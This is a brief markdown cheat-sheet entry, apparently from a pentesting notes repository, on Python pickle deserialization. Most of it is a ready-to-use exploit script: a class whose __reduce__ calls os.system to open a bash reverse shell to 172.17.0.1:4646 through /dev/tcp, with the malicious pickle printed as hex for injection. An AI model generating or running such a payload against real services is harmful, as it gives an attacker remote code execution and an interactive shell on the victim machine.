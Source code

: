 # DES-Pickle
Pickle: **Python obj** to **binary** (hex) and it does the reverse process.
- Probe this **Python** script to generate the **binary** (hex) serialized to use.
	```Python
	#!/usr/bin/python3
	
	import pickle
	import os
	import binascii
	
	class pickle_exploit(object):
	    def __reduce__ (self):
	        return (os.system, ('bash -c "bash -i >& /dev/tcp/172.17.0.1/4646 0>&1"',))
	
	if __name__ == "__main__":
	    print(binascii.hexlify(pickle.dumps(pickle_exploit())))
	```